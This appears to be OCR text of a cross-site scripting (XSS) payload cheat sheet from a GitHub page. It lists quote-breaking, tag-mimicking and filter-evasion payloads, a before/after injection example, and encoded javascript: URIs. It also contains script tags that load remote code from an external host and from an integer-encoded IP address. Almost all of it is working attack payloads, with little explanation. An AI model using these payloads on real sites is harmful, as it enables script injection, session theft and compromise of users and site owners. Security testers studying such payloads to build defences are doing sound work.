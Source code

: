 5) Quotes

<x 1='1'onxxx=1
<x 1="1"onxxx=1

6) Mimetism

<x </onxxx=1 (mimics a closing tag)
<x 1=">" onxxx=1 (mimics a text outside of the tag)
<http://onxxx%3D1/ (mimics an URL)

7) Combo

<x%2F1=">%22OnXxx%3D1
Existing Code Reuse
<script>alert(1)//
<script>alert(1)<!–

1) Before injection:

<input type="text" value=""><script type="text/javascript"> function x(){ do something }</script>

2) After injection:

<input type="text" value=""><script>alert(1)//"><script type="text/javascript"> function x(){ do something }</script>
<script src=//brutelogic.com.br/1>
<script src=//3334957647/1>
http://brutelogic.com.br/webgun/test.php?p=<script src=//3334957647/1>
http://brutelogic.com.br/webgun/test.php?p=<brute id=test onmouseover=alert(1)>AAAA
http://brutelogic.com.br/webgun/test.php?p=<brute onmouseover=pop(1)>AAAA

XSS Payload Scheme

<tag handler=code>
<b onclick=alert(1)>click me!
<img src=x onerror=alert(1)>
<frameset><frame src onload=alert(1)>
extra1 <tag extra2 handler=code> extra3
extra1 <tag handler=code extra2> extra3
<svg/onload=alert(1)>
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
<table><thead%0Cstyle=font-size:700px%0Donmouseover%0A=%0Bconfirm(1)%09><td>AAAAAAAAA


test:
<scRipt>alErt(1)</scrIpt>
<script type=vbscript>MsgBox(0)</script>
<IMG SRC=JaVaScRiPt:alert("XSS")>
<IMG STYLE="xss: expre\ssion(alert("XSS"))">
<STYLE TYPE="text/javascript">alert("XSS")
<XML SRC="javascript:alert("XSS")
<SCRIPT>document.write("<SCRI")
<IMG SRC=javascript:alert(String.fromCharCode(88
<IMG SRC=# onmouseover="alert("xxs")">
<IMG SRC= onmouseover="alert("xxs")">
<IMG onmouseover="alert("xxs")">
<IMG SRC=/ onerror="alert(String.fromCharCode(88
<isindex action="javas&tab;cript:alert(1)" type=image>
<a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>
</TITLE><SCRIPT>alert("XSS")
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>